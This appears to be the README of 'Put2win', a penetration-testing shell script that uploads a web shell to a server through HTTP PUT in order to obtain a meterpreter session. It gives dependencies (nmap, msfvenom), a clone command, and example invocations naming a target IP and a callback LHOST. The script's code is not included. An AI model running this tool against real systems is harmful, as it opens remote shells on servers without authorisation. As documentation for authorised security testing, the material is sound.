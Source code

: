 # Put2win
Script to automatize shell upload by PUT HTTP method to get meterpreter

[![asciicast](https://asciinema.org/a/0GFJCJzRQZBlWYAxco2ONqODZ.png)](https://asciinema.org/a/0GFJCJzRQZBlWYAxco2ONqODZ)

# Dependencies
It's necessary to have installed nmap and msfvenom tools for a correct operation

# Installation
git clone https://github.com/sysdevploit/put2win

# Usage
./Put2win.sh -h                                    
This script automatize shell upload by PUT HTTP method to get meterpreter.

Usage:
 ./Put2win.sh -t TARGET [-p PORT] -u URL_PATH -l LHOST

Examples:
 - ./Put2win.sh -t 192.168.1.80 -u /uploads -l 192.168.1.10
 - ./Put2win.sh -t 192.168.1.80 -p 443 -u /uploads -l 192.168.1.10

# Contact
Telegram: @devploit

Twitter: https://www.twitter.com/devploit
